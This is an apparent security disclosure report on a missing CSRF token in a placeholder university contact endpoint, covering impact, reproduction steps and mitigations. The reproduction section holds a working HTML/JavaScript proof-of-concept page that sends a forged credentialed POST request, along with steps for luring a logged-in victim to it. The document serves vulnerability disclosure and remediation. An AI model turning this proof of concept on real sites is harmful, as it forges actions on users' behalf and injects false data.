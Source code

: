 # 💼 CSRF

1\. Executive Summary

A vulnerability has been identified in the contact functionality of an online platform used by Example University at [**online.exampleuniversity.com**](http://online.exampleuniversity.com/). The POST request sent to [**contact.exampleuniversity.com/api/lead**](http://contact.exampleuniversity.com/api/lead) lacks a proper CSRF (Cross-Site Request Forgery) token or equivalent protection mechanism. This absence allows a potential attacker to exploit the weakness and send unauthorized requests, with personal data being transmitted as part of the request.

***

#### 2. Vulnerability Description

*   **Lack of CSRF Token:**

    The POST request to `/api/lead` does not include a CSRF token. A CSRF token is a unique value associated with a user session that must be included in each state-changing request. Without this validation, it is impossible to verify that the request originates from a legitimate source.
*   **Chain of Requests and Personal Data Exposure:**

    The request originates from [**online.exampleuniversity.com**](http://online.exampleuniversity.com/) and is processed by [**contact.exampleuniversity.com**](http://contact.exampleuniversity.com/). Personal data (such as first name, last name, email, and phone number) is transmitted in this process, increasing the severity of the vulnerability if exploited.
*   **Potential Data Exposure:**

    Without robust validation mechanisms, not only is the integrity of the contact action compromised, but sensitive personal information may also be manipulated or extracted by an attacker.

***

#### 3. Potential Impact on the University

*   **Manipulation of Contact Data:**

    An attacker could send malicious requests on behalf of legitimate users, resulting in:

    * Insertion of false data into the lead database.
    * Mass submission of spam or unauthorized messages, affecting the quality of the data received.
*   **Reputational Damage:**

    Abuse of the contact functionality can undermine user trust in the university’s ability to protect personal information and manage its online services securely.
*   **Potential for Further Exploitation:**

    Although the primary vector is request forgery, exploitation of this vulnerability could facilitate other attacks (such as phishing or denial of service) by manipulating user interactions with the platform.
*   **Regulatory and Compliance Risks:**

    Transmitting and storing personal data without adequate security measures can lead to legal implications and non-compliance with privacy regulations (such as GDPR, where applicable).

***

#### 4. Reproduction Steps

> **Note:** These steps should only be executed in a controlled environment and on systems for which you have explicit authorization to perform security testing.

**Step 1: Prepare an Authenticated Session**

* Ensure that a victim’s browser (or your test browser) is authenticated with [**online.exampleuniversity.com**](http://online.exampleuniversity.com/). This is necessary because the attack leverages the victim’s active session to automatically include credentials (cookies).

**Step 2: Craft a Malicious HTML Page**

Create an HTML file (e.g., `csrf_attack.html`) with the following content:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>CSRF Attack Demo</title>
</head>
<body>
  <script>
    // Data payload mimicking a legitimate contact submission
    const data = {
      "isB2B": false,
      "firstName": "John",
      "lastName": "Doe",
      "email": "john.doe@example.com",
      "mobile": "+1 555-555-5555",
      "state": "CA",
      "startStudying": "",
      "citizenResident": true,
      "leadSourceDetail": "Course Guide",
      "type": "Generic",
      "leadAttribution": "utmcsr=(direct)|utmcmd=(none)|utmccn=(not set)",
      "device": "Desktop",
      "os": "Windows",
      "portfolio": "Future Skills",
      "interestedCourseId": "DAT111U"
    };

    // Using fetch to send the POST request
    fetch("<https://contact.exampleuniversity.com/api/lead>", {
      method: "POST",
      headers: {
        "Content-Type": "application/json"
      },
      body: JSON.stringify(data),
      credentials: "include" // Ensures that cookies are sent with the request
    })
    .then(response => response.json())
    .then(result => console.log("Response:", result))
    .catch(error => console.error("Error:", error));
  </script>
</body>
</html>
```

**Step 3: Host the Malicious Page**

* Host the HTML file on a web server under your control, or open it locally in a browser for testing.
* The page must be accessible to the victim’s browser. In a real-world scenario, the attacker would need to trick the victim into visiting this page (e.g., through phishing or social engineering).

**Step 4: Lure the Victim**

* The attacker must convince an authenticated user of [**online.exampleuniversity.com**](http://online.exampleuniversity.com/) to visit the malicious page.
* Once the victim loads the page, the embedded JavaScript will automatically execute the POST request to the vulnerable endpoint.

**Step 5: Observe the Result**

* If the vulnerability is successfully exploited, the endpoint at [**contact.exampleuniversity.com/api/lead**](http://contact.exampleuniversity.com/api/lead) will process the unauthorized request.
* Verification can be done by checking for new entries in the lead database or by examining the HTTP response in the browser’s console.

**Step 6: Analysis and Verification**

* Confirm that the request did not require a CSRF token and that the forged data has been accepted.
* This confirms that an attacker could potentially leverage this flaw to inject malicious data or perform other unwanted actions on behalf of the user.

***

#### 5. Mitigation Recommendations

* **Implement CSRF Tokens:**
  * Integrate a unique CSRF token within every form and validate it on the server side upon receiving a request.
  * Utilize frameworks or libraries that provide native CSRF protection.
* **Validate Origin/Referer Headers:**
  * Ensure that the `Origin` or `Referer` headers match legitimate domains (in this case, verifying that requests originate from [**online.exampleuniversity.com**](http://online.exampleuniversity.com/)).
* **Use Cookies with SameSite Attribute:**
  * Configure session cookies with the `SameSite` attribute (preferably `Strict` or `Lax`) to reduce the risk of unintended third-party request inclusion.
* **Rate Limiting:**
  * Implement rate limiting controls to prevent an attacker from sending a large volume of malicious requests in a short period.
* **Monitoring and Logging:**
  * Set up logging and monitoring systems to detect unusual or suspicious request patterns, facilitating prompt incident response.
* **Review Communication Chain:**
  * Ensure that the transition between [**online.exampleuniversity.com**](http://online.exampleuniversity.com/) and [**contact.exampleuniversity.com**](http://contact.exampleuniversity.com/) is conducted securely by enforcing HTTPS on all communications and validating the integrity of transmitted data.

***

#### 6. Conclusion

The absence of a CSRF protection mechanism in the university’s contact endpoint poses a significant vulnerability that can be exploited to perform unauthorized actions on behalf of users, compromising data integrity and institutional reputation. The provided reproduction steps illustrate how an attacker could leverage this vulnerability by tricking an authenticated user into executing an unintended request. Mitigation is essential to safeguard personal information and maintain the security of the system. Implementing robust controls such as CSRF tokens, origin validation, and additional security measures is strongly recommended.

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

***
